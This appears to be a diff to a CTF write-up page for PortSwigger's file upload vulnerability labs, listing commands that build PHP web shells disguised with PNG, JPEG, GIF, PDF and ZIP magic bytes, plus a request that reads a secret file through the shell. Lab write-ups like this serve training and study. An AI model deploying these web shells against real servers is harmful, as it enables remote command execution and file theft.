

Before and after one commit to Sirius-A/ctf-writeups, an MkDocs documentation site: the page built from docs/writeups/2023/portswigger-bscp-labs/upload-vulnerabilities.md, in a window 1280 px wide and 900 px high, scrolled down 863 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 1301 px from its top, so only the background shows below that.

Commit message:
feat(bscp): continue file upload labs

````diff
--- a/docs/writeups/2023/portswigger-bscp-labs/upload-vulnerabilities.md
+++ b/docs/writeups/2023/portswigger-bscp-labs/upload-vulnerabilities.md
@@ -49,3 +49,26 @@ Content-Type: image/jpeg
 
 ------WebKitFormBoundaryotJoUdbZVyP8AdpK
 ```
+
+## Flawed validation of the file's contents
+
+JPEG magic bytes: `FF D8 FF`.
+
+```sh
+# PNG magic bytes + PHP code
+echo -e '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A<?php system($_GET["cmd"]); ?>' > shell.php
+
+# JPEG magic bytes + PHP code
+printf '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]); ?>' > shell.php
+
+# GIF magic bytes + PHP code
+echo 'GIF89a<?php system($_GET["cmd"]); ?>' > shell.php
+
+# PDF magic bytes + PHP code
+echo '%PDF-1.5<?php system($_GET["cmd"]); ?>' > shell.php
+
+# ZIP magic bytes
+printf '\x50\x4B\x03\x04<?php system($_GET["cmd"]); ?>' > shell.php
+```
+
+Access secret file: `files/avatars/shell-jpg.php?cmd=cat%20/home/carlos/secret`
````
Also changed, not shown: docs/writeups/2023/portswigger-bscp-labs/resources/php-shell.jpg (deleted), 1 other file.
